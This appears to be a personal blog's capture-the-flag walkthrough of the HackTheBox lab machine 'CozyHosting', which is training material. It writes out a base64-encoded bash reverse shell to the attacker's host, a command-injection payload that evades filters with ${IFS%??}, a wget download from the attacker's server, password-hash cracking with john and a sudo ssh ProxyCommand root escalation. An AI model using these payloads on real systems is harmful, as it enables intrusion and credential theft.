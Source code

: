 ```yaml
---
layout: page
title:  "CozyHosting"
date:   2025-07-10 12:05:57 -0400
categories: jekyll update
---
```


# CozyHosting

HackTheBox: Easy

> Cozyhosting is an Ubuntu system when you can practices technique as cookie hijacking, reverse shells, password hashing.
> 

## 1: Enumeration

- Check the active connection

![Untitled]({{ '/assets/images/cozyhosting/Untitled.png' | relative_url }})

- Scanning ports

![Untitled](/assets/images/cozyhosting/Untitled%201.png)

We can see there’s a web services running in 80 port and ssh service in 22 port it could be a way to get in later.

- Dirsearch looking for enable directories

![Untitled](/assets/images/cozyhosting/Untitled%202.png)

Something interesting in /actuator/sessions

## 2: Looking around

- There is a possible cookie hijacking vulnerability.

![Untitled](/assets/images/cozyhosting/Untitled%203.png)

- We can use BurpSuite

![Untitled](/assets/images/cozyhosting/Untitled%204.png)

- We simulate the log in process and inject the cookie, we change it at the right side bar

![Untitled](/assets/images/cozyhosting/Untitled%205.png)

![Untitled](/assets/images/cozyhosting/Untitled%206.png)

## 3: User flag

- It executes commands, so get can make a rev shell to get access

```bash
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

```bash
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

${IFS%??} For blank spaces and convert it to url format

- We use nc to receive the connection and make the shell stable like this

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

We use cat etc/passwd for user

- We’ve got and .jar with db credentials, using python

```bash
python3 -m http.server 7777
```

```bash
wget http://10.10.00.000:7777/<file_name>
```

- Look for creds:

![Untitled](/assets/images/cozyhosting/Untitled%207.png)

```bash
psql -h 127.0.0.1 -U postgres
```

```bash
\c cozyhosting
```

```bash
\d
select * from users;
```

We got the hash for admin, we solve using

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

We use ssh to break into

```bash
ssh josh@10.10.11.230
```

## 4: Priv esc

- Using sudo -l

![Untitled](/assets/images/cozyhosting/Untitled%208.png)

- In [https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo) We find a way to get root access easily

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![Untitled](/assets/images/cozyhosting/Untitled%209.png)

- Machine pwned
![Untitled](/assets/images/cozyhosting/Untitled%2010.png)

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
